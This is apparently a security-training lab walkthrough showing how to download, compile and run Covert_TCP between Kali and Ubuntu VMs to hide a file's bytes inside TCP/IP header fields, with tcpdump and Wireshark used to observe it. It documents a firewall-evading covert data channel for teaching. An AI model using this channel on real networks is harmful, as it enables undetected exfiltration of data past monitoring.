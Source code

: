 # Covert Channels using Cover_TCP
This program manipulates the TCP/IP header to transfer a file one byte at a time to a destination host.

Networks use network access control permissions to permit/deny the traffic through them. Tunneling is used to bypass the access control rules of firewalls, IDS, IPS, web proxies to allow certain traffic. Covert channels can be made by inserting data into unused fields of protocol headers. There are many unused or misued fields in TCP or IP over which data can be sent to bypass firewalls.

### `Covert_TCP`
Covert_TCP manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can act like a server as well as a client and can be used to hide the data transmitted insied a IP header. This is useful when bypassing firewalls and sending data with legitimate looking packets that contain no data for sniffers to analyze.

### Objectives
* How to carry covert traffic inside of unused fields of TCP and IP headers.

### Requisites
* Windows Server 2016/2012 virtual machine.
* Kali Linux virtual machine.
* Ubuntu Linux virtual machine.

***
### Make a Secret Message File
In the Kali Linux, launch a new Terminal window.

1. Create a folder named **send** on your **Desktop**, and navigate into it:<br>
`cd Desktop`<br>
`mkdir send`<br>
`cd send`

2. Create a text file called **message.txt** inside **send** folder containing the string: **Secret Message!**<br>
`echo "Secret Message!" > message.txt`

### Compile **convert_tcp**
3. Download the **covert_tcp.c** file on the **send folder:**<br>
`wget https://raw.githubusercontent.com/cudeso/security-tools/master/networktools/covert/covert_tcp.c`

4. Compile the convert_tcp.c file:<br>
`cc -o covert_tcp covert_tcp.c`<br><br>
![covert-compile-1](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/d1ba707cb8661a70e9081b65d5aec738b1a31d8e/covert-1.png)

### Make a Receiving Destination
5. Go to your Ubuntu and open a new Terminal window.

6. Switch to super-user access:
`sudo su`

7. Start the **[tcpdump](https://www.lifewire.com/tcpdump-linux-command-unix-command-4097081)** as shown below:<br>
`tcpdump -nvvX port 8888 -i lo`<br><br>
![tcp-dump-ubuntu-2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/3667d22752bffd47fb4bdc59cd292264d2678674/covert-2.png)

8. Leave the **tcpdump listener** running and open another Terminal window or tab.

9. Go to Desktop and create a folder named **receive** and navigate into it:<br>
`cd Desktop`<br>
`mkdir receive`<br>
`cd receive`

10. Download the **covert_tcp.c** file on the **receive folder:**<br>
`wget https://raw.githubusercontent.com/cudeso/security-tools/master/networktools/covert/covert_tcp.c`

11. Compile the convert_tcp.c file:<br>
`cc -o covert_tcp covert_tcp.c`<br><br>
Note: In case you got some errors about `cc` command, install the compiler:
`sudo apt install gcc`

### Setup a Listener 
12. Start the Listener [Dest=Ubuntu, Source=Kali]:<br>
`./covert_tcp -dest 10.0.2.46 -source 10.0.2.42 -source_port 9999 -dest_port 8888 -server -file /home/s4msepi0l/Desktop/receive/receive.txt`<br><br>
![Ubuntu-tcplistener](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/6394f2daeb23be93a5f775358d395c1862da8791/Listener-ubuntu-covert-4.png)

### Launch Wireshark on Kali
13. Go back to Kali and Launch the Wireshark.<br>
![wireshark-kali-1](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/6394f2daeb23be93a5f775358d395c1862da8791/Wireshark-Covert-5.png)

14. Start the Wireshark capturing, double click on your primary network interface item:<br>
![wirehsark-capturing-kali-2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/6394f2daeb23be93a5f775358d395c1862da8791/Wireshark-Covert-6.png)

### Start Sending the **Secret Message**
15. Minimize the Wireshark and open a new Terminal window on your Kali, navigate to the **send** folder.
16. Start sending the contents of message.txt file over TCP.<br>
`/covert_tcp -dest 10.0.2.46 -source 10.0.2.42 -source_port 8888 -dest_port 9999 -file /root/Desktop/send/message.txt`<br><br>
![sendsecretmessage](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/ec17197736d6b7a86925a36016d64c4ef5e25444/message-covert-7.png)<br>
Covert_tcp starts sending the string one character at a time as shown above.<br>
If you switch to the termina window in Ubuntu, you will see the message beign received:<br><br>
![receivingsecretmessage](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/ec17197736d6b7a86925a36016d64c4ef5e25444/message-covert-8.png)

### Analyze the Results
17. On your Ubuntu machine, stop the tcpdump pressing **Ctrl+C** as shown below:<br><br>
![tcpdump-stop](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/0dc76e10644c655c0871c8910233c7869a725593/cover-9.png)
Tcpdump shows that no packets were captured in the network.

18. Navigate to **/Desktop/receive/** and double-click the **receive.txt** file to view its contents. You will see the full message saved in the file as shown below:<br><br>
![secretmessage-kali](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/0dc76e10644c655c0871c8910233c7869a725593/covert-10.png)

19. Switch back to the **Kali and Stop the packet capturing on the Wireshark** by clicking on the top-left red switch.

20. Click on **Apply a display filter** field and type **tcp** to view only the TCP packets as show below:<br><br>
![apply-display-filter=tcp](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/wireshark-covert-11.png)


If you examine the communication between Ubuntu and Kali (10.0.2.46 - 10.0.2.42) you will find each character of the message string being **sent as individual packets over the network** show on the next screenshots:

Covert_tcp changes the header of the TCP packets and replaces it with the characters of the string one character at a time to send the message without being detected.

Packet 1, string: **S**
![tcp-1](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/s-tcp-12.png)

Packet 2, string: **e**
![tcp-2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/e-tcp-13.png)

Packet 3, string: **c**
![tcp-3](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/c-tcp-14.png)

Packet 4, string: **r**
![tcp-4](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/327d05e1f91358627301eb39de6dfb12f74d88ae/r-tcp-15.png)

(...) And so on until the entire message was completed.